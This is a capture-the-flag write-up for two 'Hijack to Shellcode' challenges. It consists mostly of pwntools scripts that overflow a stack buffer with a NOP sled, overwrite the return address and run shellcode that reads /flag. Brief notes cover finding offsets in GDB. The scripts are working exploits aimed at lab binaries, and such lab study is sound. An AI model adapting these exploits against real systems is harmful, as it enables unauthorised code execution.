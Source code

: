 # Hijack to Shellcode

## Hijack to Shellcode (easy)

- ASLR is disabled
- Buffer address and saved frame pointer (rbp) address given in output -> get offset

```python
from pwn import *

p = process('/challenge/binary-exploitation-hijack-to-shellcode-w')
context.arch = 'amd64'

shellcode = asm(shellcraft.amd64.cat('/flag'))

offset = 0x38
buff_start = 0x7fffffffd670
payload = b'\x90'*offset
payload += p64(buff_start+offset+0x8)
payload += shellcode

p.sendline(payload)
p.interactive()
```

## Hijack to Shellcode (hard)

- ASLR disabled
- GDB -> set breakpoint after read and run -> get ebp

```python
from pwn import *

context.arch = 'amd64'
p = process('/challenge/binary-exploitation-hijack-to-shellcode')

shellcode = asm(shellcraft.amd64.cat('/flag'))
# print(asm(shellcraft.amd64.cat('/flag')))

offset = 0x58
rbp = 0x7fffffffd6a0
payload = b'\x90'*offset
payload += p64(rbp+16)
payload += shellcode

with open("sc", "wb") as f:
    f.write(payload)

p.sendline(payload)
p.interactive()
```

> rbp = 0x7fffffffd690 from GDB, and shellcode does get executed when checked in GDB `r < <(cat sc)` ; But in pwntools, rbp = 0x7fffffffd6a0 works. This 16-byte difference was also observed in easy version, where running in terminal printed buffer start as 0x7fffffffd660 while pwntools terminal printed 0x7fffffffd670
